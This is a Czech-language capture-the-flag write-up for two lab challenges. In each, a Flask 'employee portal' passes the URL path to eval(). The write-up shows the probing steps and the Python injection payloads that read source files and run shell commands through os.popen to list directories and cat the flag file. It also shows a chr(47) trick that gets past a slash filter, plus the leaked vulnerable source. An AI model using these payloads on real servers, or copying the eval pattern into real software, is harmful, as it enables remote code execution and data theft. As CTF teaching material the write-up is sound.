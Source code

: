 # Streamlining portal

## Zadání

```
Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on http://user-info.mysterious-delivery.tcc. We fear this will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!
```

## Řešení

### 1. Testy

* Stránka vypisuje `user`, což je zároveň součástí adresy vstupní stránky `http://user-info.mysterious-delivery.tcc/hello/user`
* http://user-info.mysterious-delivery.tcc/hello/test vypíše `Hello test`
* Nejedná se o SSTI (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) payloady `/{{7*7}}` a `/${7*7}` nezobrazí nic zajímavého
* `/"` - Internal Server Error (což je podezřelé)
* `/"+"a` - `Hello a`
* `/"+str(15)+"` - `Hello 15` (nejspíš se jedná o python)
* `/"+open(__file__).read()+"` - Zobrazení zdrojového kódu webové stránky:

```python
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<path:userstring>')
def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```

### 2. Výpis vlajky

```
/"+__import__('os').popen('ls -lah').read()+"
```

```
total 28K
drw-r-xr-x 1 root root 4.0K Sep  9 09:19 .
drwxr-xr-x 1 root root 4.0K Sep  9 09:19 ..
drwxr-xr-x 1 root root 4.0K Sep 27 10:46 FLAG
drw-rw-rw- 2 root root 4.0K Sep  9 09:19 __pycache__
-rw-r-xr-x 1 root root  457 Sep  9 09:16 app.py
drwxr-xr-x 1 root root 4.0K Sep  9 09:16 templates
```

```
/"+__import__('os').popen('ls FLAG -lah').read()+"
```

```
total 16K
drwxr-xr-x 1 root root 4.0K Sep 27 10:46 .
drw-r-xr-x 1 root root 4.0K Sep  9 09:19 ..
-r--r--r-- 1 root root   26 Sep 27 10:46 flag.txt
```

```
/"+__import__('os').popen('cat FLAG/flag.txt').read()+"
```

## Vlajka

```
FLAG{OONU-Pm7V-BK3s-YftK}
```

# Streamlining portal NG

## Zadání

```
Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on http://user-info-ng.mysterious-delivery.tcc.

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!
```

## Řešení

Zobrazení zdrojového kódu stránky:

```
/"+open(__file__).read()+"
```

```python
from flask import Flask, Blueprint, redirect, render_template, abort

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<userstring>')
def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```

Drobná změna v route nám nedovolí použít znak `/`, ale ten můžeme nahradit například pomocí `chr(47)`:

```
/"+open('FLAG'+chr(47)+'flag.txt').read()+"
```

## Vlajka

```
FLAG{hvIM-3aty-R39h-dOZ4}
```
